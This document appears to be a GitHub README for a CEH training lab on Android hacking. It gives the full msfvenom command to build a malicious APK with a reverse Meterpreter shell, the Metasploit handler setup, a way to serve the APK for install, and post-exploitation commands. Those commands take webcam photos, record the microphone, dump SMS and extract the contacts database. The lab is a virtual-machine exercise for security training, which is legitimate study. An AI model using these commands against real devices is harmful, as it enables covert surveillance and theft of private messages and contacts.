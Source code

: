 
# CEH Assessment #10 – Android Hacking via Malicious APK

## Overview
This assessment demonstrates Android hacking using a malicious APK payload generated via **MSFvenom**. The APK is delivered to a virtual Android machine, leading to a **reverse Meterpreter shell** on the attacker's Kali Linux system. Key steps include payload creation, APK transfer, shell access, and post-exploitation tasks like dumping contacts.

---

## Tools & Requirements

- **VMware Workstation** – Virtual environment setup
- **Android x86 ISO** – Target Android VM
- **Kali Linux** – Attacker machine
- **MSFvenom & Metasploit Framework** – Payload creation & reverse shell management

---

## Steps Breakdown

### 1. Setup Android VM (VMware Workstation)
- Create a new VM, attach Android x86 ISO
- Configure network (Bridged/NAT)
- Boot into Android OS

### 2. Kali Linux as Attacker Machine
Ensure Kali is updated with working `msfconsole` and `msfvenom`.

### 3. Generate Payload (MSFvenom)
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<Kali_IP> LPORT=4444 -o hacked.apk
```

### 4. Start Metasploit Handler
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST=<Kali_IP>
set LPORT=4444
exploit
```

### 5. Transfer APK to Android VM
```bash
python3 -m http.server 8080
```
On Android VM, access via browser:
```
http://<Kali_IP>:8080/hacked.apk
```

### 6. Install & Run APK
- Install the app on Android
- Grant permissions & launch

### 7. Gain Meterpreter Session
Once connected:
```
meterpreter >
```

### 8. Post-Exploitation Examples
```bash
ls                          # List directory
download <filename>         # Download files
webcam_snap                 # Take photo
record_mic                  # Record audio
dump_sms                    # Retrieve SMS
```

### 9. Extract Contacts from Victim Device
```bash
cd /data/data/com.android.providers.contacts/databases/
download contacts2.db
sqlite3 contacts2.db
sqlite> SELECT display_name, data1 FROM view_data;
```

---

## Notes
- Payload creation and listener setup can be automated via Python scripting.
- This lab showcases real-world Android penetration testing and forensics techniques.

---
